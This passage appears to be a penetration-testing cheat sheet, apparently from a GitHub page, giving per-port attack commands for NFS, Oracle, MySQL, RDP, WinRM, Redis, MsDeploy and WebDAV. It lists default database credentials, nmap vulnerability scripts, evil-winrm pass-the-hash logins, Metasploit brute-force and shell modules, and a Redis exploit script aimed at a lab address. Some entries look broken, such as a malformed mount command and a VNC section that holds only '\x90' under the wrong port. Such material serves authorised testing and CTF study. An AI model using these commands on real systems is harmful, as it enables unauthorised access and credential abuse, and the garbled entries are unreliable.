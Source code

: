 * If you find anything you can mount it like this:
```sh
mount $IP:/ /tmp/NFS
mount -t $IP:/ /tmp/NFS
```
### Port 2100 - Oracle XML DB
```sh
#FTP 
	sys:sys
	scott:tiger
```
 - list of passwords :
https://docs.oracle.com/cd/B10501_01/win.920/a95490/username.htm

### MySQL - 3306
```bash
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $IP -p 3306

mysql --host=$IP -u root -p
```
### Port 3339 - Oracle web interface

Basic info about web service (apache, nginx, IIS)

### RDP - 3389
```bash
nmap -p 3389 --script=rdp-vuln-ms12-020.nse $IP
rdesktop -u username -p password -g 85% -r disk:share=/root/ $IP
rdesktop -u guest -p guest $IP -g 94%
```
### WinRM - 5985
```bash
gem install evil-winrm
evil-winrm -i $IP -u Administrator -p 'password1'
evil-winrm -i $IP -u Administrator -H 'hash-pass'

#Msf
msf > use auxiliary/scanner/winrm/winrm_login
    #Bruteforce 
msf > use auxiliary/scanner/winrm/winrm_login
    #Running Commands 
msf > use auxiliary/scanner/winrm/winrm_cmd
    #Getting Shells! 
msf > use exploit/windows/winrm/winrm_script_exec

```
### VNC - 5985
`\x90 `
### Redis - 6379
```bash
https://github.com/Avinash-acid/Redis-Server-Exploit
python redis.py 10.10.10.160 redis
```
### MsDeploy - 8172
Microsoft IIS Deploy port
```
$IP:8172/msdeploy.axd
```
### Webdav
```
davtest -cleanup -url http://$IP
```